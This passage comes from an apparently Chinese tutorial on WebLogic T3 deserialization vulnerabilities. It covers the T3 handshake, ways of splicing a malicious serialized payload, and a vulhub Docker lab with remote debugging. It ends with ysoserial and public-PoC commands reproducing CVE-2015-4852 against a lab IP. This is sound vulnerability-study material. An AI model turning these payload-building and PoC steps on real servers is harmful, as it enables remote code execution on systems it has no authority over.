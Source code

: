 可以看到，最开始的时候，就是t3协议的请求头，也就是t3 12.2.1AS:255HL:19MS:10000000PU:t3://us-l-breens:7001  
  
在发送完初始化数据包后，即开始发送请求主主体，包括：  
  
第一部分以及后续的序列化数据。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BSbU8iceXVoABibwmxtKDeKzibFhYbY2PfRGfbgDjHTZ7r2lqNAh58NCIj6bOL4TcyVWy0pdOUwicQdho60ZDg9MbA/640?wx_fmt=png&from=appmsg "")  
  
因此，生成恶意payload有两种方式：  
- 将序列化数据中的任意一段进行替换  
  
- 直接将恶意序列化数据拼接到第一段（也就是包含了请求体长度的那段）后面  
  
### 0x04 环境搭建  
###   
  
使用vulhub来进行环境搭建，地址：https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271  
  
之后修改一下docker-compose.yml文件，将8453端口映射出来，方便IDEA调试。  
  
由于此docker环境的weblogic版本是10.3.6的，因此下面的漏洞都可以使用这个版本的环境进行复现分析。  
  
之后：  
```
docker exec -it [容器id] /bin/bash
vi ~/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh
    开头加上
    debugFlag="true" 
    export debugFlag
之后重启容器：
sudo docker restart [容器id]
把容器的文件copy出来：
docker cp [容器id]:/root .
```  
  
随即配置idea远程调试  
  
将上述拷贝出的目录/root/Oracle/Middleware/wlserver_10.3  
  
找到server下的modules文件夹，并添加为libraies  
  
通过/root/Oracle/Middleware/user_projects/domains/base_domain/startWebLogic.sh 启动weblogic后，访问7001端口，出现404错误代表搭建成功：  
### 0x05 CVE-2015-4852  
###   
  
使用网上的poc打一下，链接：  
  
https://github.com/breenmachine/JavaUnserializeExploits/blob/master/weblogic.py  
  
在打poc之前，需要先生成恶意的反序列化文件，这里使用ysoserial来生成：  
```
java -jar ysoserial.jar CommonsCollections1 "touch /tmp/test.txt" > ./payloadTouchFile.tmp
```  
  
  
生成文件后，执行：  
```
python2 ./CVE-2015-4852.py 192.168.13.131 7001 ./payloadTouchFile.tmp
```  
  